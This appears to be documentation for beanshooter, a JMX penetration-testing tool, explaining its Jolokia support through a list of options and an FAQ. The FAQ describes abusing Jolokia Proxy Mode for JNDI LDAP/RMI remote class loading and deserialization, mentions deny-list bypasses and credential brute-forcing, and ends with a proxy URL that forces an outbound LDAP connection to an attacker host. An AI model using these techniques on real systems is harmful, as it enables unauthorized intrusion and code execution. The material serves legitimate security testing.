 ### Jolokia

----

Starting from *v4.0.0*, *beanshooter* supports [Jolokia](https://github.com/rhuss/jolokia) based *JMX* endpoints.
Since *Jolokia* is a little bit different from the more common *RMI* based *JMX* endpoints, we created a short
*FAQ* to tell you what is possible with *Jolokia* and what is not.

Before the start with the *FAQ* here is a short listing of *Jolokia* related *beanshooter* options:

* `--jolokia`: instructs beanshooter to treat the specified target as *Jolokia* endpoint.
* `--jolokia-endpoint <STRING>`: by default *beanshooter* uses the *HTTP* endpoint `/jolokia/`. This option can be used to overwrite.
* `--ssl`: connect via *HTTPS*.
* `--jolokia-proxy <URL>`: service URL of JMX server to proxy to (e.g. `service:jmx:rmi:///jndi/rmi://172.17.0.1:1337/jmxrmi`).
* `--jolokia-proxy-user <USER>`: username for accessing authenticated proxy *JMX* servers.
* `--jolokia-proxy-password <PASS>`: password for accessing authenticated proxy *JMX* servers.


### FAQ

----

> **Q:** What is *Jolokia*?

**A**: [Jolokia](https://github.com/rhuss/jolokia) is an agent based *JMX* connector that allows accessing *JMX MBeans*
via *HTTP*. This is different from regular *JMX* connectors, that are usually based on *Java RMI* and tightly
integrated into the *Java* distribution itself. *Jolokia* can be accessed like an *REST API* and uses *JSON* over
*HTTP(S)* to transport information. The agent component converts incoming requests to *MBean* calls and returns
the call result back to the client. This makes it easy to interface with *JMX* from other programming languages
and allows easier firewall setups as for *RMI*.

> **Q:** Is the feature set of *Jolokia* equivalent to *RMI* based *JMX*?

**A**: No. Despite most *MBean* related operations work flawlessly with *Jolokia*, there are some restrictions.
The most obvious one is that *Jolokia* does not support the creation or the removal of *MBeans*. The corresponding
`cretaeMBean` and `unregisterMBean` methods are not implemented by the agent component and clients are not able
to call them. Moreover, *Jolokia* only supports method invocations that use [OpenTypes](https://docs.oracle.com/javase/7/docs/api/javax/management/openmbean/OpenType.html),
a limited set of simple *Java* types that can be represented by other programming languages. Method invocations with
arbitrary *Java* objects are therefore not possible.

> **Q:** What *beanshooter* operations are supported for *Jolokia* endpoints?

**A**: All operations that do not require the creation or removal of *MBeans* or the transport of complex *Java* types.
In essence, this means that the `deploy`, `undeploy` and `serial` actions are not supported. All other operations are
supported, as long as the only utilize *OpenTypes*, but this should be the case for most actions.

> **Q:** Can I use the *TonkaBean* via *Jolokia*?

**A**: Technically, you can use it, but most likely you cannot deploy it. With *v4.0.0* we made all methods exposed
by the *TonkaBean* *OpenType* conform. This means that an already deployed *TonkaBean* can be utilized via *Jolokia*.
However, the *TonkaBean* is usually deployed via the *MLet MBean*, which is usually not deployed per default and needs
to be created via `createMBean`. Since this is not possible via *Jolokia*, it is unlikely that you can deploy a *TonkaBean*.
That being said, it is not impossible. If the *MLet MBean* is already available on the target, you can use *beannshooters*
`mlet load` action to deploy a *TonkaBean*.

> **Q:** Does *Jolokia* use authentication?

**A**: It might. Authentication can be configured during the agent setup. If configured, *Jolokia* uses *HTTP Basic Auth*.
You can bruteforce credentials using *beanshooters* `brute` action, but be aware that this can lead to account locks on
newer *JMX* endpoints. Whether authentication is possible can be enumerated using *beanshooters* `enum` action.

> **Q:** What is *Jolokia Proxy Mode*?

**A**: *Jolokia* can be configured as a bridge between *HTTP* based clients and *RMI based JMX* services. In this mode,
*Jolokia* converts incoming *HTTP* requests to *RMI* calls and forwards them to the *RMI based JMX* service. One particular
interesting detail about *Proxy Mode* is that the target *RMI based JMX* service is client specified.

> **Q:** Can I abuse *Jolokia* running in *Proxy Mode*?

**A**: Sometimes. there are basically three scenarios you can profit from:

1. By connecting to *RMI based JMX* services in the backend that may be exploitable.
2. By forcing an outbound *JNDI LDAP based* connection that may allows to exploit remote class loading (*log4shell vector).
   It is worth noting that *Jolokia* supports allow and deny lists for proxy destinations. *JNDI LDAP based* service URLs
   are on the deny list per default. That being said [bypasses](https://github.com/rhuss/jolokia/pull/543) may exist.
3. By forcing an outbound *JNDI RMI based* connection that may allows deserialization attacks (*log4shell vector).

Apart from that, *Proxy Mode* could be useful to enumerate the presence of other services in the backend.

> **Q:** How does *beanshooter* compare to [Jolokia Exploitation Toolkit](https://github.com/laluka/jolokia-exploitation-toolkit)

**A:** *Jolokia Exploitation Toolkit* is a great collection of possible techniques to abuse *Jolokia*. Most of these techniques
are even relevant for regular *RMI based JMX* when deploying *MBeans* is not possible due to permission or firewall restrictions.
Therefore, most of these techniques have already been implemented by *beanshooter* and are now also available when targeting
*Jolokia* with *beanshooter*. Some of them are only implicitly available. E.g. you can trigger an outbound *JNDI LDAP based* connection
by using `--jolokia-proxy service:jmx:Rmi:///jndi/ldap://172.17.0.1:1337/ups`.

